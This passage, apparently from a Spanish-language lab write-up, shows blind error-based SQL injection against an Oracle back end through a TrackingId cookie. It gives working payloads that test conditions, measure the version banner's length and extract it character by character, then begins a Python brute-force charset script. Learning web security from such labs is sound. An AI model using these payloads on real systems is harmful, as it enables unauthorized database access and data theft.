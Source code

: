 ```
Cookie: TrackingId=mSNHzn6Uz17ftRBH'||+(select+case+when+(1=1)+then+to_char(1/0)+else+''+end+from+dual)+||'; session=JUBiNvas8e5LhVOxp3vSewIFA0Se9qsx
```

Una vez tenemos esta forma, ahora podemos listar la longitud de la versión, si enviamos este payload los devolverá un `error`, esto significa que está funcionando. Si cambiamos la condición `> 1` por `= 1` la web nos responderá con un `200 OK`, esto es porque la consulta está bien formulada, de lo contrario nos devolvería un error en todas las ocasiones

```
Cookie: TrackingId=C5PhDxyLUgYK5wqP'||(select case when (length((select listagg(banner, ' ') within group (order by banner) from v$version)) > 1) then to_char(1/0) else null end from dual)||'; session=BMvtH2Wf9tGi7WdeVufBPzLwygoHxxPD
```

`Identificamos` que la `longitud` de la `versión` de `Oracle` es de `225 caracteres`

```
Cookie: TrackingId=C5PhDxyLUgYK5wqP'||(select case when (length((select listagg(banner, ' ') within group (order by banner) from v$version)) = 225) then to_char(1/0) else null end from dual)||'; session=BMvtH2Wf9tGi7WdeVufBPzLwygoHxxPD
```

Con esta otra consulta podremos obtener la `versión` de `Oracle`, se puede hacer con un ataque `Cluster bomb` desde `Burpsuite` o mediante un `script` en `python`

```
Cookie: TrackingId=C5PhDxyLUgYK5wqP'||(select case when (substr((select listagg(banner, ' ') within group (order by banner) from v$version), 1, 1) = 'a') then to_char(1/0) else null end from dual)||'; session=BMvtH2Wf9tGi7WdeVufBPzLwygoHxxPD
```

Para poder `dumpear datos` vamos a utilizar todos los `caracteres imprimibles` de la `librería string` de `python`

```
(pythonProject) PS C:\Users\Sergio\PycharmProjects\pythonProject> python
Python 3.11.10 | packaged by Anaconda, Inc. | (main, Oct  3 2024, 07:22:26) [MSC v.1929 64 bit (AMD64)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> import string
>>> dir (string)
['Formatter', 'Template', '_ChainMap', '__all__', '__builtins__', '__cached__', '__doc__', '__file__', '__loader__', '__name__', '__package__', '__spec__', '_re', '_sentinel_dict', '_string', 'ascii_letters', 'ascii_lowercase', 'ascii_uppercase', 'capwords', 'digits', 'hexdigits', 'octdigits', 'printable', 'punctuation', 'whitespace']
>>> string.printable
'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c'
```

Como `vamos` a `iterar` para a `eliminar` los `caracteres` que se `repiten`

```
#!/usr/bin/python3

import string

characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))
print(characters)
```
